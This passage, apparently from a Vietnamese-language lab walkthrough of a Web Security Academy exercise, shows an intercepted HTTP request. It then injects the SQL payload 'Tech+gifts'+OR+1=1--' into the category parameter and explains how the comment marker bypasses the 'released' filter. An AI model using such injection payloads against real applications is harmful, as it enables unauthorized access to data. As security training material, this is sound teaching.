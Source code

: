 ```
GET /filter?category=Tech+gifts HTTP/2
Host: 0acf0092030fea408003951800f6008e.web-security-academy.net
Cookie: session=cY6Hd4SqjPVZvbrqetjcwXHgbbdGigPp
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acf0092030fea408003951800f6008e.web-security-academy.net/filter?category=Pets
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```

7. Sửa thông tin `category` thành `category=Tech+gifts'+OR+1=1--`. Lúc này ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Tech gifts' OR 1=1--' AND released = 1
```
- Mệnh đề `WHERE` sẽ tìm kiếm các sản phẩm có `category = 'Tech gifts'` hoặc `1=1` (luôn đúng), tức sẽ trả về mọi sản phẩm.
- Dấu `--` sử dụng để đưa mệnh đề `AND` vào phần bình luận và không thực hiện nó, từ đó lấy được thông tin về các sản phẩm chưa phát hành.

8. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.

![Finish WHERE](images/2.png)
